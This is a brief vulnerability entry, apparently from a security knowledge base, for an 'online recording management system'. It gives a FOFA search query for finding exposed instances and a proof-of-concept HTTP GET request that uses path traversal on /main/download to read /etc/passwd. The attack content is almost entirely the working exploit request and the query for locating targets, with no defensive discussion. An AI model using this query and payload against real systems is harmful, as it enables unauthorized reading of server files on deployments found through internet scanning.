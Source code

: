 # fofa
```plain
title="在线录音管理系统"
```

# POC
```plain
GET /main/download?path=/etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727006038083-19579cc4-defa-4f87-af8e-8127a7bedf12.png)

